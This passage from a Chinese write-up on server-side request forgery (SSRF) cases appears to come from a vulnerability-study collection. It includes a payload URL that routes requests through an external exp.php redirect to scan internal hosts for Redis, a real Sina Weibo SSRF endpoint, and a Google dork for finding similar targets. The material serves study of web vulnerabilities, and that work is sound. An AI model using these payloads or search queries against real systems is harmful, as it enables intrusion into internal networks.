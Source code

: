 3.当我们在识图网页的请求框输入了图片url，然后按下搜索。实际抓到的数据包为：
``` shell
post ....
"imgurl":payload
```
所以这里 payload 构造为：
``` shell
payload = "http://tv.phpinfo.me/exp.php?s=ftp%26ip={ip}%26port={port}%26data=hello.jpg"
```
这样就通过url参数的形式给 http://tv.phpinfo.me/exp.php 传入了值。
通过phpinfo.me的exp.php又进一步访问了传入的内网IP，及指定端口，注意这里是通过ftp协议去访问的。

即：通过302跳转绕过，访问了内网服务。exp.php放在外网服务器，通过exp.php中的302跳转跳到内网IP。

4.实际访问的内网网段为：10.121.3.x。

至于这个网段怎么来的，大神也不说，就随便猜测下：可能是通过子域名挖掘出一些内网IP（尤其是这种大公司）；可能是历史漏洞中泄露的网站内网拓扑；又或者，大神早就有这些资产了。

5.脚本中还有别的好玩的：

它利用了python的锁机制，先去访问每台 10.121.3.x 的 65321（这个IP怎么来的，就是个随便的，估计本来想打65432，但是端口最大65535），然后现在就有了一个进程。在此进程下再去try访问6379，如果端口开放，访问成功就会acquire一个lock，如果不开放就不会。然后如果lock.acquire()，就说明6379端口开放。

最终，获取了好几台开放了 redis 的内网主机。

**总结：**

在` 4. 图片加载/下载`处可能存在SSRF。可以通过填入远程 vps 的公网ip，看看是否收到连接的方式来证明此漏洞。

## 3. 新浪微博某处SSRF漏洞 
在2016年的时候，许多公司觉得SSRF不算漏洞。

**漏洞点：**

- 服务器：
http://service.weibo.com

- SSRF位置
http://service.weibo.com/share/share.php?appkey=872034675&content=utf-8&url=http://fuzz.wuyun.org/hello?world&title=wyssrf&pic=

- 参数
url

**漏洞证明:**

远程服务器获取到请求。

**利用思路：**
用此SSRF漏洞来打[新浪微博某系统存在远程命令执行漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0213360)这个漏洞。

**猪猪侠给出的修复建议：**

把用于取外网资源的API部署在不属于自己的机房。

**总结：**

这种情况属于 `7. 网站采集，网站抓取的地方`。在这个 SSRF 中，主要是新浪服务器去获取 url 对应的外网资源。

提炼出 Google Hacking 语法：
``` shell
inurl:?url=
```
## 4. 华为某分站存在SSRF漏洞
